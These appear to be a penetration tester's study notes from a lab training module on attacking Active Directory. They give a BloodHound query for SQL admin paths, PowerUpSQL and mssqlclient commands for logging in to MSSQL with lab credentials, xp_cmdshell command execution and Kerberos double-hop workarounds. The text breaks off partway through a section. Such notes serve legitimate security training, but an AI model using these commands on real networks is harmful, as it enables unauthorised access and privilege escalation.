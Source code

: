 ### SQL Server Admins
#### Bloodhound Custom Query 
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
#### Connecting the MSSQL
##### PowerUp SQL Windows
Hunt for SQL server Instances
```powershell
cd .\PowerUpSQL\

Import-Module .\PowerUpSQL.ps1
```

```powershell
Get-SQLInstanceDomain
```
Authenticate against MSQQL Services 
```powershell
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

##### MSSQL Client Linux
```shell
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```
#### SeImpersonate 
```shell
enable_xp_cmdshell
```
JuciyPotato, PrintSpoofer, RoguePotato etc.
```shell
xp_cmdshell whoami /priv
```

## Kerberos "Double Hop" Problem
Problem when attempting to user kerberos over to or more hops. 

Occurs in WinRM/Powershell
![[Kerberos double hop.png]]

### Workarounds 
https://posts.slayerlabs.com/double-hop/
#### PSCredential Object 
Within a WINRM session
```shell
import-module .\PowerView.ps1
```

```powershell
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
```
